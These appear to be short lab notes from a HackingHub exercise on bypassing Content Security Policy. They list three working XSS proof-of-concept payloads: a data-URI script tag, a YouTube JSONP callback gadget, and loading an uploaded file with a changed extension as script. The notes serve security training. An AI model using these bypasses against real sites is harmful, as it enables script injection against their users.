


# CSP (HackingHub)

Content Security Policy
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
## Data

```text
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```html
<script src=data:text/javascript,alert(1)></script>
```

## 3rd Party Domains JSONP

```text
content-security-policy
	script-src 'self' https://app.hackinghub.io https://www.google.com https://www.youtube.com
```


```html
<script/src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=oOfgVmxBk6U&callback=alert(1)></script>
```

## CSP Upload Bypass

```text
Content-Security-Policy
	script-src 'self'
```



Change file extension



```text
https://1972wbae.eu1.ctfio.com/csp-upload/uploads/602f749c1107ef174ee59af635d096ef.js
```

```html
<script/src=https://1972wbae.eu1.ctfio.com/csp-upload/uploads/602f749c1107ef174ee59af635d096ef.js></script>
```
